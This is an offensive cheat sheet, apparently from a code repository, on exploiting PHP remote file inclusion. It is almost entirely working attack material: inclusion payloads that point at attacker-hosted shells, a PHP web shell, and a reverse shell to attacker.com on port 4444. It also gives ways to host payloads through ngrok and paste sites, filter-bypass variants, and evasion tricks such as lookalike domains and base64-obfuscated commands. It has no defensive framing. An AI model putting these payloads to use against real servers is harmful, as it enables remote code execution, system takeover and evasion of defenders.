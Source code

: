 # execute code from remote servers. rce via external file inclusion.

requires `allow_url_fopen=On` in php configuration.

## quick test payloads

basic remote inclusion:
```
?file=http://attacker.com/shell.txt
?page=http://evil.com/cmd.php
?include=https://attacker.com/backdoor.txt
```

## attack setup

1. host malicious file on your server:
```php
# shell.txt on attacker.com
<?php system($_GET['cmd']); ?>
```

2. trigger inclusion via vulnerable parameter:
```
http://target.com/app.php?file=http://attacker.com/shell.txt&cmd=id
```

3. server downloads and executes your remote code.

## payload hosting

**simple php shell:**
```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**reverse shell payload:**
```php
<?php
$sock = fsockopen("attacker.com", 4444);
exec("/bin/bash -i <&3 >&3 2>&3", $sock);
?>
```

**info gathering:**
```php
<?php
echo "User: " . get_current_user() . "\n";
echo "PWD: " . getcwd() . "\n";
echo "OS: " . php_uname() . "\n";
phpinfo();
?>
```

## hosting methods

**python http server:**
```bash
# host payloads
echo '<?php system($_GET["cmd"]); ?>' > shell.txt
python3 -m http.server 8080
```

**ngrok tunnel:**
```bash
# expose local server to internet
ngrok http 8080
# use ngrok url in rfi attack
```

**free hosting platforms:**
```
pastebin.com/raw/[paste-id]
github.com/user/repo/raw/main/shell.txt
```

## bypass techniques

**protocol variations:**
```
http://attacker.com/shell.txt
https://attacker.com/shell.txt
ftp://attacker.com/shell.txt
```

**case sensitivity bypass:**
```
HTTP://attacker.com/shell.txt
Http://attacker.com/shell.txt
```

**url encoding:**
```
?file=http%3A%2F%2Fattacker.com%2Fshell.txt
```

## detection evasion

**legitimate-looking urls:**
```
http://jquery.com.attacker.com/shell.txt
http://attacker.com/legitimate-file.txt
```

**indirect inclusion:**
```
# redirect chain
http://attacker.com/redirect.php -> shell.txt
```

**obfuscated payloads:**
```php
# base64 encoded commands
<?php system(base64_decode($_GET['b64cmd'])); ?>
```

## error-based information disclosure

failed rfi attempts reveal:
```
# error messages show:
- file paths and directory structure
- php configuration details  
- whether url includes are enabled
- network connectivity restrictions
```

## operational notes

- [!] rfi generates network traffic to your server - logs will show source
- requires internet connectivity from target server
- error messages reveal php config and restrictions
- combine with other vulns for maximum impact
- test for both http and https support

**verification methods:**
- check access logs on your server
- use unique identifiers in payloads
- monitor dns requests to your domain

# TODO: add techniques for bypassing outbound filtering